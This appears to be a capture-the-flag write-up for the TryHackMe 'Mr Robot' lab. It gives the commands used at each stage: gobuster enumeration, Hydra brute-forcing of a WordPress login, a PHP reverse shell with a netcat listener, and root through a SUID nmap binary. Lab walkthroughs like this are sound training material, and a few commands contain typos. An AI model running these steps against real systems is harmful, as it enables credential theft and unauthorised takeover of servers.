







<h1>Mr Robot :fsociety: </h1>

<h2>What is key 1?</h1>

Hint: Robots

This hint should take anyone that has done a few ctfs somewhere fast,
it is a suggestion to go check the robots.txt file of the site:

If you haven' yet, go to browser an put the machine ip address, then
after spending some unfruitful time watching Mr. Robot advertisements(/s)
you can go ahead and check out the robots.txt of the site:

`MACHINE_IP/robots.txt`

Below is a screenshot of robots.txt:

As you can see there are two interesting pieces of information.
The *key-1-of-3.txt* and *fsocity.dic* pages have been placed here to keep crawlers
from indexing them.

So,  lets check them out.

First, *key-1-of-3.txt* :

And we got our first key. :sunglasses:

Then *fsocity.dic*,

Depending on what browser you are using, you will be able to see the
words in this site or be prompted to download the file immediately upon
visiting the page. Save the file (which seems to be a dictionary) and continue on.

<h2>What is key 2?</h1>

Hint: White colored font

For this answer, we will try to identify the rest of the flags following the
methodology provided in the [official walkthrough](https://www.youtube.com/watch?v=BQ4xeeNAbaw) by DarkSec for TryHackMe.

The next thing to do then, is run gobuster on the site so that we can identify
additional subdomains. This will help us locate a good place to put the
*fsocity.dic* file to use.

You can get gobuster here: https://github.com/OJ/gobuster

Then run the following command.

`gobuster -u 'http://MACHINE_IP' -w any_directory_wordlist.txt -o gobusteroutput.txt `

Once gobuster is done finding subdomains, we can check which ones have a 200 response:

`cat gobusteroutput.txt | grep 200`

At this point, focus shifts towards the */wp-login* page, where we launch a username and password
brute force attack using our fsocity.dic wordlist and Hydra (https://github.com/vanhauser-thc/thc-hydra)

The command below was used to brute-force the username(USER = Elliot):

`hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log^USER^&pwd^PASS^:Invalid username" -V`

Once we have the username, we can go ahead and use the same wordlist to brute-force the
password for the newly found username. (PASS= ER28-0652)

`hydra -l Elliot -P fsocity.dic txt MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V`

This will let us access the wordpress account for Elliot and look around.

In this case, Elliot's ability to use the edit panel from his account enable the use of php scripts
that will generate a reverses shell which can be used to gain root access.

To get the shell we start listening on port 53 with netcat:

`sudo rlwrap nc -lvnp 53`

then get a reverse shell from wherever you want, the one from the the walkthrough was this
one (https://github.com/pentestmonkey/php-reverse-shell). By modifying a php file for a certain them with
the reverse php shell we get the connection. Load that file on the browser, in this case the URL:

`http://10.10.62.195/wp-content/themes/twentyfifteen/archive.php`

We now go back to the terminal in which we are listening for incoming connections on port 53
And we have a shell

Check for users on the shell:  `ls /home` , then check their home directories for anything
useful. In this case the second key is in  robot user's home dir, but we cant read it until
we escalate priviledges. There is, however, a backup of robot's password stored and legible.
So we read it

Then we use crackstation to check the hash, and the password is: `abcdefghijklmnopqrstuvwxyz`\

To login as robot using this shell, first we need to make it interactive, this is done with the
following command and the result can be seen in the screenshot below:

`python -c 'import pty;pty.spawn("/bin/bash")'`

Once logged in as robot we can read the second key and escalate privileges to root.
command: `find / -perm +6000 2>/dev/null | grep '/bin/' ` will find binaries with the root binary .
 The resulting binaries are shown below:

The `/usr/local/bin/nmap` binary can be used to gain root access.
Additional information can be found here: https://gtfobins.github.io/gtfobins/nmap/

We run the binary and the reccomended commands to escalate privilege:
`sudo nmap --interactive
nmap> !sh`

And we are now root... that's it

